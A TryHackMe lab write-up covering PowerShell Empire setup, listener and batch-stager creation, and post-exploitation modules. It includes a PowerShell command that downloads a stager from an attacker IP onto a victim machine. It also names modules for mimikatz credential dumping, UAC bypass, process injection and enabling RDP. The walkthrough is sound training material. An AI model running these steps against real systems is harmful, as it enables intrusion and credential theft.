 ```yaml
---
title: "RP: PS Empire - TryHackMe"
author: Ludovic COULON
date: 2020-05-08
hero: ./images/hero.png
excerpt: "RP: PS Empire - TryHackMe writeup"
---
```


# RP: PS Empire

[TryHackMe | RP: PS Empire](https://tryhackme.com/room/rppsempire)

![https://i.imgur.com/0xn4lAt.jpg](https://i.imgur.com/0xn4lAt.jpg)

PowerShell Empire is a powerful post-exploitation framework which allows us to perform various functions such as privesc, password gathering, situational awareness, and many more!

Link to the official website: [https://www.bc-security.org/post/the-empire-3-0-strikes-back](https://www.bc-security.org/post/the-empire-3-0-strikes-back)

Clone the following GitHub page and run the initial setup script.

[https://github.com/BC-SECURITY/Empire/](https://github.com/BC-SECURITY/Empire/)

## [Task 2] Install

**#1 cd /opt**

```bash
Question Done
```

**#2 git clone [https://github.com/BC-SECURITY/Empire/](https://github.com/EmpireProject/Empire)**

```bash
Question Done
```

**#3 cd /opt/Empire**

```bash
Question Done
```

**#4 ./setup/install.sh**

```bash
Question Done
```

**#5 When prompted, enter in a server negotiation password. This can be left blank for random generation, however, you should record this somewhere such as a LastPass vault.**

```bash
Question Done
```

**#6 Launch Empire with either ./empire or /opt/Empire/empire**

```bash
Question Done
```

## [Task 3] Listeners

If you're going to play ball, first you have to learn how to catch. Similar to 'catching' a reverse shell with Netcat, we first have to set up a listener in order to properly handle any sort of agent we would install on our victim machine. Answer the following questions using the listeners help menu and then spawn a basic listener.

---

**#1 Once empire has launched, type help to view the various menus. Which menu to we launch to access listeners?**

```bash
listeners
```

**#2 Launch the listeners menu. In a manner similar to cobalt strike/metasploit, this will launch a contextual submenu. For the sake of this tutorial, we will be using an http listener in order to catch our connections. Type the command 'uselistener http' now. You can double-tap tab to view all options for listeners following typing 'uselistener'**

```bash
Question Done
```

**#3 What command can we now type to view all of the options related to our selected listener type?**

```bash
info
```

**#4 Once the information regarding the listener pops up, peruse this for some of the more interesting options we can set in order to disguise our actions more. Which option can we use to set specific times when our listener will be active?**

```bash
WorkingHours
```

**#5 Similar to changing/spoofing what browser you are using on the internet, what option can we set to appear as a different user agent (i.e. chrome, firefox, etc)?**

```bash
DefaultProfile
```

**#6 What option can we use to set the port which the listener will bind to?**

```bash
port
```

**#7 In addition to changing our browser profile, we can change what our server appears as. What option can we set to change this?**

```bash
ServerVersion
```

**#8 Launch our newly created listener on port 80 with the command 'execute'. What message is displayed following successfully launching the listener?**

```bash
Listener successfully started
```

**#9 We can verify that our listener is now active by typing what command?**

```bash
listeners
```

## [Task 4] Stagers

Stagers metaphorically and literally set the stage for post-exploitation by retrieving the remaining code and associated information necessary to spawn a full-fledged agent.

---

**#1 First, type the command 'usestager' and double-tap tab to view all options we have for stagers. Which option allows us to use a batch file?**

```bash
windows/launcher_bat
```

**#2 Let's finish our previous command and select the batch file option. Press enter to finalize this. What is our new path to the 'module' we have selected?**

```bash
stager/windows/launcher_bat
```

**#3 Since we've previously set our listener to use http, we must now set the associated options within our stager we are building to match that. What option must we set in order to accomplish this?**

```bash
Listener
```

**#4 Type execute to finish creating our stager. Where is the stager saved?**

```bash
/tmp/launcher.bat
```

**#5 Using any shell you have previously gained into our victim system transport the stager batch file to the system and execute it. This can be done in numerous ways depending on the stager used, be prepared to be flexible with your transportation methods similarly to how you might handle an msfvenom package.**

```bash
Question Done
```

## [Task 5] Agents and Post-Exploitation

Interact with our ses.. er agents and do neat things.
Download the evil file to the windows computer.

```bash
powershell -c "(new-object System.Net.WebClient).DownloadFile('[http://10.9.45.74/files/launcher.bat','C:\\Users\\Jon\\Documents\\launcher.bat](http://10.9.45.74/files/launcher.bat','C:%5C%5CUsers%5C%5CJon%5C%5CDocuments%5C%5Clauncher.bat)')"

```

**#1 First, type agents to view our registered agents.**

```bash
Question Done
```

**#2 Once you've typed agents to list the registered agents, the agents submenu will become active. Use the help menu to answer the following questions.**

```bash
Question Done
```

**#3 What command do we use to interact with an agent?**

```bash
interact
```

**#4 What about if we wanted to list any usernames and passwords we have gathered?**

```bash
creds
```

**#5 And if we wanted to 'deactivate' an agent for a while to avoid detection?**

```bash
sleep
```

**#6 How about if we wanted to delete an agent or disconnect it?**

```bash
kill
```

**#7 Moving into the post exploitation modules, what command can we use to search through these?**

```bash
searchmodule
```

**#8 We'll start with the most important module, find the module which plays a specific AC/DC song.**

```bash
python/trollsploit/osx/thunderstruck
```

**#9 What if we wanted to perform an lsa dump with a certain popular windows credential gathering tool?**

```bash
powershell/credentials/mimikatz/lsadump
```

**#10 Sometime we might not have the permissions level that we require to perform further actions, what module set might we have to use to get around UAC?**

```bash
bypassuac
```

**#11 What module family allows us to gather additional information about the network we are on?**

```bash
recon
```

**#12 Our process we have compromised might not be the most stable, how do we migrate to another process? (This will have a specific module answer)**

```bash
powershell/management/psinject
```

**#13 Last but not least, what module can we use to turn on remote desktop access for our purposes?**

```bash
powershell/management/enable_rdp
```
